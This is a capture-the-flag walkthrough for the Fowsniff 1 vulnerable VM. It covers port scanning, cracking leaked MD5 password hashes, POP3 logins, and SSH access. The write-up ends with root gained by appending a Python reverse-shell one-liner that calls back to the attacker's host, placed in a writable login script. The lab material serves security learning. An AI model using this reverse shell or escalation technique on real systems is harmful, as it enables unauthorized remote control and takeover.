




## Fowsniff 1

* Author: berzerk0
* Web page: [https://www.peerlyst.com/posts/ctf-virtual-machines-created-by-the-peerlyst-community-hack-these-peerlyst](https://www.peerlyst.com/posts/ctf-virtual-machines-created-by-the-peerlyst-community-hack-these-peerlyst)
* Download: [vulnhub](https://www.vulnhub.com/entry/fowsniff-1,262/)

### Solution:

Local network scan:

```
$ nmap -sn 192.168.1.0-

...
Nmap scan report for 192.168.1.107
Host is up (0.0023s latency).
...
```

And target scan:

```
$ nmap -A -p- 192.168.1.107

Starting Nmap 7.60 ( https://nmap.org ) at 2019-02-12 20:20 CET
Nmap scan report for 192.168.1.107
Host is up (0.00044s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (EdDSA)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: PIPELINING RESP-CODES USER CAPA SASL(PLAIN) TOP UIDL AUTH-RESP-CODE
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: more have ENABLE SASL-IR capabilities ID OK LOGIN-REFERRALS listed post-login AUTH=PLAINA0001 IMAP4rev1 LITERAL+ Pre-login IDLE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds
```

You can see here that `pop3` and `imap` services are running as well as some `http` server.<br>
After entering the site, `Fowsniff Corp` company website appears.<br>



The website is `Out Of Service`, and the description shows that Fowsniff has recently been hacked and the company employees data was leaked.<br>
The description also states that the company's Twitter account `@fowsniffcorp` has been hijacked and the attacker has shared some information there.<br>



On Twitter you can actually find a link to pastebin which judging by the description contains passwords dump<br>



Additionally there is an information, that `pop3 server` is open.

So we get pairs `email:hash`

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

You can easily recognize that these are md5 hashes.<br>
There are many databases of cracked hashes available online,<br>
I used this one [https://hashkiller.co.uk/md5-decrypter.aspx](https://hashkiller.co.uk/md5-decrypter.aspx) and managed to get all the passwords except one.



Using the obtained logins and passwords, you can try to connect to `POP3`.<br>
Theoretically, all employees were instructed to change their passwords, but maybe someone didn't do it?

Session from `telnet`:
```
$ telnet 192.168.1.107 110
Trying 192.168.1.107...
Connected to 192.168.1.107.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER mauer
+OK
PASS mailcall
-ERR [AUTH] Authentication failed.
USER mustikka
+OK
PASS bilbo101
-ERR [AUTH] Authentication failed.
USER tegel
+OK
PASS apples01
-ERR [AUTH] Authentication failed.
USER baksteen
+OK
PASS skyler22
-ERR [AUTH] Authentication failed.
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
```

There are two messages in the mailbox, one of which is very important.

```
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

And now we have `SSH password`!

This time user `baksteen` did not change the password.

```
$ ssh baksteen@192.168.1.107
baksteen@192.168.1.107's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
```

Now we want to get `root`.<br>
After reviewing the content of user baksteen files, one can conclude that the only important file is `.viminfo`.<br>
You can see there that the `/opt/cube/cube.sh` file was edited.<br>

And here is the content of this file:

```
$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

And its permissions:

```
$ ls -al /opt/cube/cube.sh
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
```

So we can edit a bash script which is run when logging in via ssh.<br>

Here we have a few examples of how to get a reverse shell: [reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

I have decided to use Python and added at the end of the script:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.103",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And after login again:

```
$ nc -lvp 12345
Listening on [0.0.0.0] (family 0, port 12345)
Connection from 192.168.1.107 44528 received!
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls -a /root
.
..
.bashrc
.nano
.profile
Maildir
flag.txt
# cat /root/flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```
